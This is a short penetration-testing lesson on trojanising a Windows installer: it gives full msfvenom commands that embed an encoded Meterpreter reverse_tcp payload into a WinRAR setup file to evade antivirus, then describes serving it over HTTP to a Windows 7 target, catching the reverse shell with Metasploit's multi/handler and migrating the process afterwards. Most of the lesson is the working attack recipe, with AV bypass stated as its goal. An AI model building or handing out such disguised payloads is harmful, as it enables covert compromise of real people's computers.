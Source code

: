# Injecting Payloads Into Windows Portable Executables

This lesson is a technical demonstration. Note that the objective of injecting payloads into windows portable executables is bypassing AV systems.

## Laboratory

For this technical demonstration we won't need a lab environment. We can follow along using a simple kali virtual machine.

- First, we need a portable executable to inject the payload into it. One of the best options is WinRAR. For this case, we will need the 32 bit (x86) winrar setup from the official website.

- We will use the same example we used in the previous lesson but we will add the -x option to specify the executable we want to inject the payload in `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -x ~/path/to/winrar.exe > ~/path/to/encoded/payload.exe` if you got no errors, the injection process should have succeded.

### Transfering Payload to the target

- To transfer the malicious payloads to the target machine, in this case we will only target windows windows. We need to have a windows 7 machine in the same network as our kali machine. We are going to setup a simple http web server and try to download the payloads to the windows machine from a web browser. Once we setup the web server, we are going to set up the listener using the msfconsole module `multihandler`. We only need to run `use multi/handler` inside the msfconsole and change the payload to the payload we crafted using msfvenom. And we also need to configure the LHOST and LPORT we configured in the payload with msfvenom.

**Note**: When using meterpreter payloads, we need to use the multihandler module to properly handle the connection. Simpler handlers like netcat could not work properly.

- From the windows target machine, enter the browser and download the payloads. Execute them and then you should see something happening on your kali machine, it should open a meterpreter session on the multihandler.

**Note**: It is importance to notice that the real functionality of the executable is not kept, we replaced it with the payload. This doesn't happen with the information of the file, it will keep the file description and company name.

**Note**: After gaining initial access in windows, it is recommended to run the post exploitation module called `post/windows/manage/migrate`.

### Keeping original functionality of the executable

- This doesn't usually work and we can prove it won't work on winrar by using the same example as before but adding the option -k `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -k -x ~/path/to/winrar.exe > ~/path/to/encoded/payload.exe`. Note the error at the end. You could eventually find an executable with enough testing and error.

**Note**: This attack vector is really not used anymore, as the new AV solutions have huge signature databases and better detection techniques. This could be useful for older and rudimentary AV solutions like Windows Defender in Windows 7 and in some cases in new AV, but it is not the method utilized in regards to client side attacks because of the limitations of encoding.
